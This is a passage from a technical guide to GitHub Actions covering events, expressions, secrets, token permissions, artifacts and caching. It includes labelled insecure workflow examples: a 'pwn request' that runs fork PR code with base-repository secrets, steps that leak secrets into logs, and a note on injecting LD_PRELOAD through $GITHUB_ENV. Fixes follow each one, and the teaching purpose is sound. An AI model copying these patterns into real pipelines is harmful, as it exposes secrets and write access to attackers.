| **Composite action** | A bundle of steps | Reusing step sequences | No `secrets` context, runs as one logical step (Chapter 22) |

Reference forms:

```yaml
- uses: actions/checkout@v7                       # public action at a tag
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # pinned SHA (v7.0.1)
- uses: ./.github/actions/setup-java-maven         # local composite action (checkout first)
- uses: docker://alpine:3.20                       # container image action
```

### 9.3 Shell commands: what really happens

Each `run` step writes your script to a temp file and launches the shell with it. Defaults on Linux: `bash -e {0}` if you do not specify `shell`, and `bash --noprofile --norc -eo pipefail {0}` if you write `shell: bash`. **Write `shell: bash` (or set `defaults.run.shell`) for scripts that pipe commands**, so failures in the middle of a pipeline are not swallowed.

**Workflow commands and files** (official mechanisms for talking to the runner):

| Purpose | Mechanism | Example |
|---|---|---|
| Set a step output | Append to `$GITHUB_OUTPUT` | `echo "version=1.2.3" >> "$GITHUB_OUTPUT"` |
| Set an env var for later steps | Append to `$GITHUB_ENV` | `echo "TZ=UTC" >> "$GITHUB_ENV"` |
| Add to `PATH` | Append to `$GITHUB_PATH` | `echo "$HOME/bin" >> "$GITHUB_PATH"` |
| Rich job summary (Markdown) | Append to `$GITHUB_STEP_SUMMARY` | `echo "### Coverage: 84%" >> "$GITHUB_STEP_SUMMARY"` |
| Mask a value in logs | `::add-mask::VALUE` | `echo "::add-mask::$TOKEN"` |
| Group log lines | `::group::Title` / `::endgroup::` | |
| Annotations | `::error file=A.java,line=10::message`, `::warning::`, `::notice::` | |
| Debug message | `::debug::text` (visible with debug logging) | |

The old `::set-output` command is deprecated in favor of `$GITHUB_OUTPUT`.

**Multiline outputs** need a delimiter:

```bash
{
  echo "notes<<EOF_NOTES"
  git log --oneline -n 5
  echo "EOF_NOTES"
} >> "$GITHUB_OUTPUT"
```

**Danger:** writing attacker-controlled text to `$GITHUB_ENV` or `$GITHUB_OUTPUT` without care can inject variables (for example a newline followed by `LD_PRELOAD=...` or `NODE_OPTIONS=...`). Use random delimiters and validate values (Chapter 35).

### 9.4 `run` versus a script file

Keep workflow YAML thin. Put logic in versioned scripts you can run locally:

```yaml
- name: Smoke test
  run: ./scripts/smoke-test.sh "$BASE_URL"
  env:
    BASE_URL: ${{ vars.SERVICE_URL }}
```

You get local testing, shellcheck, and less YAML-embedded logic. This is the single best defense against "YAML as a programming language" pain.

---

## Chapter 10. Events

### 10.1 The events that matter for backend CI/CD

| Event | Fires when | Workflow file version | Token and secrets (typical) | Use for |
|---|---|---|---|---|
| `push` | Commits pushed (branches or tags) | Pushed commit | Full (write token if permissions allow) | Build, publish, deploy from protected branches |
| `pull_request` | PR opened, synchronized, reopened (default types) | PR merge commit | **Fork PRs: read-only token, no secrets** | CI on proposed code |
| `pull_request_target` | Same activity types, in the **base** repo context | **Default branch** | Base-repo token and secrets | Labeling/commenting on fork PRs. Dangerous. |
| `merge_group` | A PR enters a merge queue | Merge group commit | Repo-level | Required checks in merge queues |
| `workflow_dispatch` | Manual or API trigger with inputs | Default branch file, chosen ref | Repo-level | Manual deploys, rollbacks, ops tasks |
| `workflow_call` | Called by another workflow | Called workflow's ref | Passed explicitly | Reusable workflows |
| `workflow_run` | Another workflow requested/completed | Default branch | Base-repo | Chaining/privilege separation, failure notifications |
| `schedule` | Cron | Default branch latest commit | Repo-level | Maintenance, scans |
| `release` | Release created/published/etc. | Tagged commit | Repo-level | Publish on release |
| `deployment` / `deployment_status` | Deployment created / status changed | Default branch or ref | | Reacting to external deployment systems |
| `issues`, `issue_comment` | Issue activity, comments (also on PRs) | Default branch | Base-repo | Bots, ChatOps |
| `repository_dispatch` | External webhook you send via API | Default branch | | Cross-repo or external triggers |
| `create`, `delete`, `fork`, `label`, `page_build`, `registry_package`, `check_run`, `status`... | Repository events | Varies | | Niche automation |

Use `types:` to narrow: `pull_request: types: [opened, synchronize, reopened, ready_for_review]`. Activity types multiply runs: an issue opened with two labels can trigger three runs for `[opened, labeled]`.

### 10.2 `pull_request` versus `pull_request_target`

**`pull_request`** runs the workflow **from the PR's merge commit**. For fork PRs GitHub therefore treats the workflow as untrusted: read-only `GITHUB_TOKEN`, no secrets, and first-time-contributor approval policies. The code that runs is the code that is checked out, so behavior is *consistent* and *safe*.

**`pull_request_target`** runs the workflow **from the default branch** with the **base repository's secrets and a read/write token**, plus (by default) write access to the default-branch cache. It exists so bots can label or comment on fork PRs. It is safe *only* as long as no code from the PR is ever executed.



**⚠️ INTENTIONALLY INSECURE EXAMPLE (the "pwn request")**

```yaml
# ⚠️ INTENTIONALLY INSECURE EXAMPLE. DO NOT USE.
on:
  pull_request_target:
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # attacker's code
      - run: make test                                      # runs attacker's Makefile with your secrets
```

**Why it is fatal.** Checking out is not the exploit; *running* what was checked out is. The attacker's `Makefile`, build script, test, or dependency manifest runs with the base repository's secrets and write token. Multiple real supply-chain compromises started this way (GitHub Security Lab calls it a "pwn request").

**Current platform protections (official).** Since 8 December 2025 the workflow and ref always come from the default branch. `actions/checkout` v7 and backported supported versions refuse to check out a fork PR head in `pull_request_target` unless you set `allow-unsafe-pr-checkout: true` (a name chosen to be conspicuous in review). Workflow execution protections (GA 17 September 2026) let admins restrict which events and actors can run workflows; a default rule disables `pull_request_target` on public repositories (enforced from 2 November 2026 for those on the default policy). These are safety nets, not a substitute for design.

**Safe designs, in order of preference**

1. Use `pull_request`. If you only need to test the PR, you almost certainly do not need secrets.
2. If you need to *comment or label* with results: run the untrusted work in `pull_request` (no secrets), upload the result as an artifact, then use a **separate `workflow_run` workflow** that treats the artifact as **data only** (parse it, validate it, never execute it).
3. If you truly need secrets for tests on fork PRs, run them in a protected **environment with required reviewers** so a human inspects the PR before secrets are released.
4. Only then: `pull_request_target` that never touches PR code (labeling, greeting), with minimal `permissions`.

### 10.3 `workflow_run`: powerful and easy to misuse

`workflow_run` fires when another workflow (by name) is `requested` or `completed`. It runs from the default branch with base-repo access, which is why it is used for privilege separation and for failure notifications. Caveats:

- It only triggers if the workflow file is on the default branch.
- The triggering workflow may have been run on **fork code**; its artifacts and its `head_branch`, `head_commit.message` and similar fields are attacker-controlled. Never execute downloaded artifacts and never interpolate those fields into shell.
- You cannot chain more than three levels of `workflow_run`.
- Cache access is read-only by default for this trigger.

```yaml
on:
  workflow_run:
    workflows: [CI]
    types: [completed]
    branches: [main]
jobs:
  notify:
    if: ${{ github.event.workflow_run.conclusion == 'failure' }}
    runs-on: ubuntu-24.04
    permissions: {}
    steps:
      - run: echo "CI failed on main - $RUN_URL"
        env:
          RUN_URL: ${{ github.event.workflow_run.html_url }}
```

### 10.4 `workflow_dispatch` with typed inputs

```yaml
on:
  workflow_dispatch:
    inputs:
      environment:
        description: Target environment
        type: environment
        required: true
      image_digest:
        description: 'Image digest to deploy (sha256:...)'
        type: string
        required: true
      dry_run:
        type: boolean
        default: true
```

Inputs arrive in the `inputs` context with real booleans (and in `github.event.inputs` as strings). **Validate `string` inputs** before use; anyone with write access can supply anything:

```yaml
- name: Validate digest format
  env:
    DIGEST: ${{ inputs.image_digest }}
  run: |
    [[ "$DIGEST" =~ ^sha256:[0-9a-f]{64}$ ]] || { echo "::error::Invalid digest"; exit 1; }
```

### 10.5 `schedule` behavior

- Uses cron (UTC default); `timezone: "America/New_York"` is supported.
- Runs against the default branch's latest commit.
- Not guaranteed on time; avoid `:00` minute marks.
- Access the matching cron string via `github.event.schedule` to run different steps per schedule.

### 10.6 Event payloads and contexts

The full webhook payload is available as `github.event`. Its shape depends on the event: `github.event.pull_request.number` exists for pull request events, not for `push`; `github.event.head_commit.message` exists for `push`, not for others. Referencing a missing property yields an empty value, not an error, which hides mistakes. Debug with:

```yaml
- run: echo "$EVENT" | jq .
  env:
    EVENT: ${{ toJSON(github.event) }}
```

**Security note:** in that snippet the payload goes through `env`, so nothing is interpolated into the script body. Only do this in trusted contexts, since payloads can contain attacker text (they are only *printed* here, but printing user text into logs can still mislead).

### 10.7 Events and required checks

For a check to be required on merge queues, the workflow must also trigger on `merge_group`. Path or branch filters that skip an entire workflow leave its required check "Pending" (official). Chapter 43 gives the stable gate pattern.

---

## Chapter 11. Contexts and Expressions

### 11.1 What is a context

A **context** is a read-only object that holds data about the run. You read it with dot syntax inside `${{ }}`.

| Context | Contains | Where available (broad summary) |
|---|---|---|
| `github` | Event, repo, ref, sha, actor, run id, `event` payload, `token` | Almost everywhere |
| `env` | Environment variables set in workflow/job/step | After definition; steps |
| `vars` | Configuration variables (repo/org/environment) | Nearly everywhere |
| `secrets` | Secrets | Steps, `with`, `env`; **not** in `if` directly; not in job-level `runs-on`/`strategy` |
| `inputs` | `workflow_dispatch` / `workflow_call` inputs | Nearly everywhere |
| `needs` | Outputs and results of jobs this job depends on | Job-level and steps |
| `jobs` | Outputs of jobs (only in reusable workflow `outputs`) | `workflow_call` outputs |
| `job` | Current job info (status, container, services) | Steps |
| `steps` | Outputs, `outcome`, `conclusion` of earlier steps | Steps |
| `runner` | OS, arch, temp dir, tool cache, environment (`github-hosted`/`self-hosted`) | Steps |
| `strategy` | `fail-fast`, `job-index`, `job-total`, `max-parallel` | Steps |
| `matrix` | Current matrix combination | Steps and some job keys |

Not every context is available in every key. For example `runs-on` cannot read `steps`, and the `env` context is not available in `jobs.<id>.if` (the job has not started yet). The Contexts reference in the docs has the authoritative availability table; when GitHub rejects a workflow with "Unrecognized named-value", this is why.

Useful `github` properties: `github.repository`, `github.ref` (`refs/heads/main`), `github.ref_name` (`main`), `github.ref_type` (`branch`/`tag`), `github.sha`, `github.event_name`, `github.actor`, `github.run_id`, `github.run_attempt`, `github.head_ref` and `github.base_ref` (pull requests only), `github.workspace`, `github.server_url`.

### 11.2 Expression syntax

`${{ <expression> }}`. In `if:` conditions you may omit the braces, **except** when the expression starts with `!` (YAML). Prefer writing braces always.

**Literals:** `true`, `false`, `null`, numbers, and strings in **single quotes** (`'it''s'`). Double quotes are an error.

**Operators:** `( )`, `[ ]`, `.`, `!`, `<`, `<=`, `>`, `>=`, `==`, `!=`, `&&`, `||`.

**Functions:** `contains`, `startsWith`, `endsWith`, `format`, `join`, `toJSON`, `fromJSON`, `hashFiles`, `case`, and status functions `success()`, `failure()`, `cancelled()`, `always()`.

### 11.3 Subtle evaluation rules (source of most confusion)

1. **String comparison ignores case.** `'Main' == 'main'` is true.
2. **Loose type coercion.** Mismatched types coerce to numbers: `null` → 0, `true` → 1, `false` → 0, numeric string → number, empty string → 0, arrays/objects → `NaN`. Comparisons with `NaN` are always false.
3. **Outputs are always strings.** `steps.x.outputs.flag` is the *string* `'false'`. In conditionals the falsy values are `false`, `0`, `-0`, `''` and `null`, so the non-empty string `'false'` is *truthy*. Compare explicitly: `steps.x.outputs.flag == 'true'`.
4. **Use `fromJSON` to convert** strings to booleans/numbers/objects, for example to compare numerically or expand a dynamic matrix.
5. **Missing properties are empty, not errors.** `github.event.pull_request.number` on a push is empty.
6. **`&&` / `||` emulate a ternary**, with the classic pitfall: `cond && 'a' || 'b'` returns `'b'` if `'a'` is falsy. For clear multi-branch selection, use `case()`.
7. **Secrets cannot be tested in `if` directly.** Map them to `env` at job level and compare the env var (see the official pattern below).
8. **Objects and arrays compare by identity**, not contents. Use `toJSON` to compare, or `contains`.
9. **`${{ }}` is substituted textually before the shell runs.** This is the injection vector (Chapter 35).
10. **Object filter `*`**: `github.event.pull_request.labels.*.name` yields an array of names, usable with `contains`.

### 11.4 Status check functions

| Function | True when | Notes |
|---|---|---|
| `success()` | No previous step (or ancestor job) failed or was cancelled | **Implicit default** when an `if` has no status function |
| `failure()` | A previous step or ancestor job failed | Must be included explicitly to override the implicit `success()` |
| `cancelled()` | The run was cancelled | |
| `always()` | Always, even when cancelled | The docs recommend `!cancelled()` instead for most cases, because `always()` can hang a cancelled run when used on critical steps such as checkout |

Rule of thumb: for "upload test reports even if tests failed" use `if: ${{ !cancelled() }}`. For "run only when something failed" use `if: ${{ failure() }}`. For "run cleanup even if cancelled" use `if: ${{ always() }}`.

### 11.5 Realistic examples

```yaml
jobs:
  deploy:
    # only from main, only in this repo (not forks), only on push
    if: ${{ github.repository == 'ORG/REPO' && github.ref == 'refs/heads/main' && github.event_name == 'push' }}
    runs-on: ubuntu-24.04
    env:
      # map env selection with case()
      TARGET: ${{ case(github.ref == 'refs/heads/main', 'staging', startsWith(github.ref, 'refs/tags/v'), 'production', 'none') }}
      HAS_SLACK: ${{ secrets.SLACK_WEBHOOK_URL != '' }}
    steps:
      - name: Only when secret exists (compare via env)
        if: ${{ env.HAS_SLACK == 'true' }}
        run: echo "Slack configured"

      - name: Is this a release tag?
        if: ${{ startsWith(github.ref, 'refs/tags/v') }}
        run: echo "release build"

      - name: Skip on draft PRs
        if: ${{ github.event_name != 'pull_request' || !github.event.pull_request.draft }}
        run: echo "not a draft"

      - name: Label check
        if: ${{ contains(github.event.pull_request.labels.*.name, 'skip-e2e') == false }}
        run: echo "e2e will run"

      - name: Numeric compare of a string output
        if: ${{ fromJSON(steps.cov.outputs.percent) < 80 }}
        run: echo "coverage below 80"
```

Dynamic matrix from JSON:

```yaml
jobs:
  plan:
    runs-on: ubuntu-24.04
    outputs:
      services: ${{ steps.set.outputs.services }}
    steps:
      - id: set
        run: echo 'services=["orders","billing"]' >> "$GITHUB_OUTPUT"
  test:
    needs: plan
    runs-on: ubuntu-24.04
    strategy:
      matrix:
        service: ${{ fromJSON(needs.plan.outputs.services) }}
    steps:
      - run: echo "testing ${{ matrix.service }}"
```

**Debugging contexts:** `echo "$CTX" | jq .` with `env: CTX: ${{ toJSON(github) }}`. Do not dump the `secrets` context. Treat `github` dumps as potentially containing sensitive metadata; avoid in public repos' logs when unnecessary.

**Common mistakes:** comparing to unquoted `false`; relying on `steps.*.outputs` being typed; using `if: ${{ !cancelled() }}` without braces; expecting `env` at job-level `if`; forgetting that `continue-on-error` makes `steps.x.conclusion` `success` while `outcome` remains `failure`.

---

## Chapter 12. Secrets, Variables and Configuration

### 12.1 The comparison table

| Item | Confidential? | Scope | Read via | Use for | Do **not** use for |
|---|---|---|---|---|---|
| **Secret** | Yes: encrypted at rest, masked in logs | Repository, environment, organization | `secrets.NAME` | Tokens, passwords, webhook URLs, private keys (as last resort) | Non-sensitive config; cloud access when OIDC is possible |
| **Configuration variable** | No | Repository, environment, organization | `vars.NAME` | URLs, region, image names, feature toggles, role ARNs | Anything confidential |
| **Environment variable (`env`)** | No (unless you inject a secret into it) | Workflow, job, step | `env.NAME` or `$NAME` in shell | Per-run values, passing untrusted input safely to shell | Long-term config storage |
| **Repository secret/variable** | | One repository | | Shared across the repo's workflows | Values that differ per environment |
| **Organization secret/variable** | | Many repositories (policy-selected) | | Shared platform values | Wide exposure of high-value secrets |
| **Environment secret/variable** | | One named environment | | Per-environment config; **protected by environment rules** | |
| **`GITHUB_TOKEN`** | Yes (auto-generated) | One job in one run | `secrets.GITHUB_TOKEN` or `github.token` | Calling GitHub's API, pushing packages | Cross-repository access, triggering other workflows |
| **OIDC token** | Yes (short-lived JWT) | One job | Minted on demand (needs `id-token: write`) | Authenticating to clouds/Vault without stored secrets | n/a |

**Precedence.** When the same name exists at several levels, the more specific one wins (environment over repository over organization).

**Repository secret versus environment secret.** A repository secret is available to any workflow on any branch that can run (subject to the trigger's fork rules). An **environment secret** is released to a job only after that environment's protection rules pass (reviewers, allowed branches). Put production credentials in the production environment, never at repository level.

### 12.2 How secrets behave (official)

- Not passed to workflows triggered by fork PRs (`pull_request`) and to Dependabot-triggered runs (except `GITHUB_TOKEN`, read-only).
- Anyone with write access to the repository can read all repository secrets by modifying a workflow. Secrets protect against *outsiders*, not against writers. That is why environment protection, CODEOWNERS on `.github/`, and OIDC with narrow trust policies matter.
- **Masking is best-effort.** GitHub redacts exact matches of the secret value in logs. Transformations (Base64, URL-encoding, substrings, splitting) defeat it. Register derived values with `::add-mask::`.
- **Do not store structured data (JSON, YAML, XML) as one secret.** Redaction relies on exact matching; create one secret per value.
- Job outputs containing a secret are dropped.
- Delete a log that exposed a secret **and rotate the secret**. Deleting is not enough.

### 12.3 Passing secrets safely

```yaml
- name: Call internal API
  env:
    API_TOKEN: ${{ secrets.API_TOKEN }}     # scoped to this step only
  run: |
    curl --fail -H "Authorization: Bearer $API_TOKEN" https://internal.example.com/deploy
```

Scoping to the **step** minimizes which processes can read it. Avoid job-level or workflow-level `env` for secrets, since every step, including third-party actions, then receives it.

**⚠️ INTENTIONALLY INSECURE EXAMPLES**

```yaml
# ⚠️ INTENTIONALLY INSECURE EXAMPLE. DO NOT USE.
env:
  DB_PASSWORD: ${{ secrets.DB_PASSWORD }}       # exposed to every step and every action in the workflow
steps:
  - run: set -x; ./deploy.sh ${{ secrets.DB_PASSWORD }}   # shell tracing prints it; also visible in process list
  - run: echo "${{ secrets.API_KEY }}" | base64            # base64 form is NOT masked
  - run: env                                               # dumps everything that was injected
```

**Fixes.** Scope secrets to the step; pass by environment variable, not command-line arguments (arguments appear in `ps`); never use `set -x` around secrets; never print environment; register transformed values.

### 12.4 Command injection through configuration

Values in `vars`, inputs, issue titles or branch names are *not* trustworthy just because they are in a workflow. Treat all as untrusted when they can be influenced by anyone other than the reviewed code. See Chapter 35 for the full treatment.

### 12.5 Where to put what (recommended layout)

| Value | Location |
|---|---|
| AWS role ARN, region, cluster name, service URL | Environment **variables** |
| Registry hostname, image name | Repository/organization variable |
| Slack/Discord webhook URL | Environment or repository **secret** |
| Cloud access | **OIDC** (no stored secret) |
| Database passwords for the running app | Not in GitHub at all: use the platform's secret manager (AWS Secrets Manager, Vault) referenced by the deployment |
| Third-party API key needed by the pipeline | Environment secret |

---

## Chapter 13. GITHUB_TOKEN and Permissions

### 13.1 What the token is

At the start of every job GitHub generates a **short-lived installation access token** for the "GitHub Actions" app, scoped to the repository that runs the workflow. It is available as `secrets.GITHUB_TOKEN` or `github.token`. It expires when the job finishes or after 24 hours at most (official). It lets steps call the GitHub API and push packages without you creating a personal access token.

Properties to remember:

- **Its permissions are configurable** via `permissions:`. The repository/organization default may be *restricted* (read-only for contents and packages) or *permissive* (read/write). New organizations and repositories default to restricted; **do not rely on defaults**, so always declare permissions.
- **Events created with it do not trigger new workflow runs**, with the exceptions of `workflow_dispatch` and `repository_dispatch`. This prevents infinite loops. If you need a bot to trigger CI on the PR it created, use a GitHub App token, not `GITHUB_TOKEN`.
- **Fork PRs (`pull_request`) get a read-only token.** Dependabot runs are treated the same.
- **`pull_request_target` gets read/write** (subject to your `permissions`).
- It is scoped to **one repository**. Cross-repo access needs a GitHub App installation token or a fine-grained PAT (prefer the App).

### 13.2 The permissions available

`actions`, `artifact-metadata`, `attestations`, `checks`, `code-quality`, `contents`, `deployments`, `id-token`, `issues`, `discussions`, `packages`, `pages`, `pull-requests`, `security-events`, `statuses`, `vulnerability-alerts`. Each is `read`, `write` (includes read) or `none`; `id-token` is `write` or `none`; `vulnerability-alerts` is `read` or `none`.

| Permission | What `write` allows (examples) |
|---|---|
| `contents` | Push commits/tags, create releases |
| `packages` | Publish to GitHub Packages / GHCR |
| `pull-requests` | Comment, label, review on PRs |
| `issues` | Comment, label, close issues |
| `checks` | Create check runs |
| `statuses` | Create commit statuses |
| `deployments` | Create deployments and statuses |
| `actions` | Cancel/re-run workflows, manage caches/artifacts via API |
| `security-events` | Upload SARIF to code scanning |
| `id-token` | **Request the OIDC JWT** (does not grant GitHub API write) |
| `attestations` | Create artifact attestations |
| `pages` | Deploy to GitHub Pages |

### 13.3 Rules of the game

- If you specify **any** permission, all unspecified ones become `none`.
- `permissions: {}` disables all.
- `read-all` / `write-all` exist. **Avoid `write-all`.**
- Job-level `permissions` override workflow-level.
- Recommended pattern: **workflow-level `contents: read`, then grant extra scopes only in the specific job that needs them.**

### 13.4 Least-privilege presets

```yaml
# CI job
permissions:
  contents: read
```

```yaml
# CI job that posts a PR comment and uploads SARIF
permissions:
  contents: read
  pull-requests: write
  security-events: write
```

```yaml
# Job that builds and pushes to GHCR and attests provenance
permissions:
  contents: read
  packages: write
  id-token: write
  attestations: write
```

```yaml
# Deploy job using AWS OIDC
permissions:
  contents: read
  id-token: write
```

```yaml
# Release job
permissions:
  contents: write     # create the GitHub Release
  packages: write     # retag the image
```

```yaml
# Notification-only job
permissions: {}
```

### 13.5 Why production workflows must set permissions explicitly

1. **Defaults are set outside the file** by org/repo settings and can differ between repositories or change over time.
2. **A compromised step or action inherits the token.** With `write-all` a single poisoned action can push code, rewrite releases, and approve PRs (if allowed). With `contents: read` the blast radius is small.
3. **Review is easier.** A permissions block is a readable statement of what the job may do.
4. **Auditors and scanners** (CodeQL for Actions, OpenSSF Scorecard) flag missing permissions.

Also consider the repository setting that controls whether Actions may create or approve pull requests; keep it off unless you have a reason.

### 13.6 When `GITHUB_TOKEN` is not enough

| Need | Use |
|---|---|
| Trigger workflows from a workflow-created PR/push | GitHub App installation token (`actions/create-github-app-token`) |
| Access another private repository | GitHub App token with narrow repository selection |
| Push to a protected branch as a bot | GitHub App added to the ruleset bypass list (rarely wise) |
| Cloud access | OIDC, not a token |

Prefer GitHub Apps over PATs: they are not tied to a person, can be scoped per repository, and their tokens are short-lived.

---

# Part 4: Intermediate Topics

## Chapter 14. Artifacts, Caches and Outputs: Three Ways to Move Data

Beginners confuse these constantly. Decide with this table first.

| | **Output** | **Cache** | **Artifact** |
|---|---|---|---|
| Purpose | Pass a small value | Speed up future runs | Preserve or share files from this run |
| Content | Strings (up to 1 MB per job) | Dependency/build directories | Files: reports, binaries, JARs |
| Direction | Step→step, job→job (same run) | Run→later runs | Job→job (same run), and→humans/API |
| Guarantee | Reliable within the run | **Best-effort**; may be missing or evicted (unused 7 days; 10 GB per repository by default) | Reliable until retention expires |
| Correctness dependence | Yes | **Never** depend on it; a miss must only slow you down | Yes |
| Retention | Run | Evicted by age and size | Default 90 days, configurable |
| Trust | Trusted within run | Can be poisoned | Can be poisoned if from untrusted runs |

**Rule:** build correctness must never depend on a cache. Builds must be correct with an empty cache.

### 14.1 Artifacts with `upload-artifact` / `download-artifact`

Artifacts are stored by GitHub's artifact service. Since v4 of these actions: artifact names are **unique per run** and each artifact is **immutable** (you can overwrite by re-uploading with `overwrite: true`, which creates a new artifact ID); hidden files are excluded by default unless `include-hidden-files: true`. v7 of `upload-artifact` can upload a single file **unzipped** (`archive: false`), making it viewable in the browser; v8 of `download-artifact` skips unzipping non-zip artifacts and **fails on digest mismatch by default**.

```yaml
- uses: actions/upload-artifact@v7
  if: ${{ !cancelled() }}               # keep reports even when tests failed
  with:
    name: surefire-reports-${{ matrix.java }}
    path: |
      **/target/surefire-reports/
      **/target/site/jacoco/
    retention-days: 14
    if-no-files-found: warn
```

```yaml
- uses: actions/download-artifact@v8
  with:
    pattern: surefire-reports-*
    merge-multiple: true
    path: reports/
```

**Considerations.** Set short `retention-days` for bulky reports. Do not upload secrets or `.git` credentials (an artifact is downloadable by anyone with read access to a public repo). Treat artifacts produced by fork-triggered runs as **untrusted data**. Artifact storage has plan quotas (for example 500 MB on Free, 2 GB on Team, 50 GB on Enterprise Cloud per the official limits table).

### 14.2 Artifacts versus everything else

| Comparison | Difference |
|---|---|
| **GitHub Actions artifact vs container image** | Artifact: files attached to a run, temporary. Image: layered, addressable by digest, stored in a registry, runnable. Deploy images, not Actions artifacts. |
| **GitHub Actions artifact vs artifact repository** | Actions artifacts expire and are run-scoped. An artifact repository (Artifactory, Nexus, registries) is a governed, durable store with versioning and promotion. |
| **Build artifact vs deployment artifact** | Build artifact: output of compilation (JAR). Deployment artifact: what the platform actually consumes (a container image or Helm chart referencing it). |

### 14.3 Outputs

```yaml
jobs:
  build:
    runs-on: ubuntu-24.04
    outputs:
      version: ${{ steps.v.outputs.version }}
    steps:
      - id: v
        run: echo "version=1.4.${GITHUB_RUN_NUMBER}" >> "$GITHUB_OUTPUT"
  deploy:
    needs: build
    runs-on: ubuntu-24.04
    steps:
      - run: echo "deploying $VERSION"
        env:
          VERSION: ${{ needs.build.outputs.version }}
```

Outputs are the right vehicle for **identities** (image digest, version), never for bulk data.

---

## Chapter 15. Caching in Depth

### 15.1 Concept

A cache stores directories keyed by a string. A later run that computes the same key restores the directory instead of re-downloading. The cache is a *performance optimization* that lives in GitHub's cache service.



### 15.2 The easy way: built-in caching in setup actions

```yaml
- uses: actions/setup-java@v6
  with: { distribution: temurin, java-version: '21', cache: maven }   # or: gradle
- uses: actions/setup-node@v7
  with: { node-version: '22', cache: npm }                            # pnpm, yarn
- uses: actions/setup-python@v7
  with: { python-version: '3.12', cache: pip }
- uses: actions/setup-go@v7
  with: { go-version-file: go.mod }                                   # caching on by default
```

They compute a key from lockfiles (`pom.xml`, `package-lock.json`, `requirements.txt`, `go.sum`) automatically. **Prefer these over hand-written cache steps.** For Gradle, `gradle/actions/setup-gradle` provides a more capable cache.

### 15.3 The manual way

```yaml
- uses: actions/cache@v6
  with:
    path: ~/.m2/repository
    key: maven-${{ runner.os }}-${{ hashFiles('**/pom.xml') }}
    restore-keys: |
      maven-${{ runner.os }}-
```

- **`key`**: exact identifier; include OS and a hash of the dependency manifest.
- **`restore-keys`**: ordered prefixes used on a miss to restore the *closest* older cache, which then gets updated and saved under the new exact key.
- **Invalidation** is by changing the key (change of lockfile hash). Add a manual version prefix (`v2-`) to force a global reset.
- **Stale caches** accumulate junk (old dependencies) when using broad `restore-keys`; occasionally bump the prefix.

### 15.4 Scope and security

- Workflows can restore caches from **the current ref and the default branch** (and for PRs, the base branch). Child and sibling branches are isolated.
- **Cache poisoning risk.** A cache written by a job with attacker influence, then restored by a privileged job, can inject code. Mitigations (official): low-trust triggers (`pull_request_target`, `issue_comment`, `workflow_run`) get **read-only** access to default-branch caches by default; `pull_request` caches are scoped to the merge ref; and you can set `cache-mode` to `read` in jobs that should never write.
- **Recommended:** (1) let only trusted `push` workflows on main *write* caches; (2) give PR jobs `cache-mode: read` if you do not need PR-populated caches; (3) never restore a cache in a release/deploy job that produces a signed artifact. Build those from clean, or only from caches written by trusted runs; (4) do not cache secrets or credentials.

```yaml
jobs:
  test:
    runs-on: ubuntu-24.04
    cache-mode: read          # PR test job restores but never saves
```

### 15.5 Docker layer caching

Use BuildKit's GitHub Actions cache backend:

```yaml
cache-from: type=gha
cache-to: type=gha,mode=max
```

`mode=max` caches intermediate layers as well (larger, faster). Alternative: a registry cache (`type=registry,ref=...:buildcache`), which is not subject to the 10 GB Actions cache limit and is shared with local builds.

### 15.6 Measuring and when not to cache

Look at the cache step logs: hit or miss, restore time, size. A cache that takes 90 seconds to restore to save 60 seconds of downloading is a net loss. **Do not cache** when: the tool is already fast without it; outputs are non-deterministic and could mask errors (`target/` directories of full builds); the restore size is huge (multi-GB); or in release builds where reproducibility matters more than speed.

---

## Chapter 16. Matrices and Parallelization

### 16.1 Basics

A **matrix** generates one job per combination of variables.

```yaml
jobs:
  test:
    runs-on: ${{ matrix.os }}
    strategy:
      fail-fast: false
      max-parallel: 4
      matrix:
        java: ['17', '21']
        os: [ubuntu-24.04]
        db: ['postgres:15', 'postgres:16']
        include:
          - java: '21'
            os: ubuntu-24.04-arm
            db: 'postgres:16'
        exclude:
          - java: '17'
            db: 'postgres:16'
    steps:
      - uses: actions/checkout@v7
      - uses: actions/setup-java@v6
        with: { distribution: temurin, java-version: '${{ matrix.java }}', cache: maven }
      - run: mvn -B -ntp verify -Ddb.image=${{ matrix.db }}
```

| Key | Meaning | Caveat |
|---|---|---|
| `matrix.<var>: [..]` | Cartesian product | 256 jobs max per matrix |
| `include` | Add extra combinations or extra keys to existing ones | Entries that match an existing combination *add* variables to it |
| `exclude` | Remove combinations | Applied before `include` |
| `fail-fast` | Cancel remaining legs after first failure. Default `true` | Set `false` to see all failures |
| `max-parallel` | Limit simultaneous legs | Protects shared databases/quotas |

**Naming and required checks.** Matrix job names include the values (`test (21, ubuntu-24.04, ...)`). A matrix change renames checks, which breaks required-check settings. Solve with a single **gate job** (Chapter 27, 43).

### 16.2 Dynamic matrices

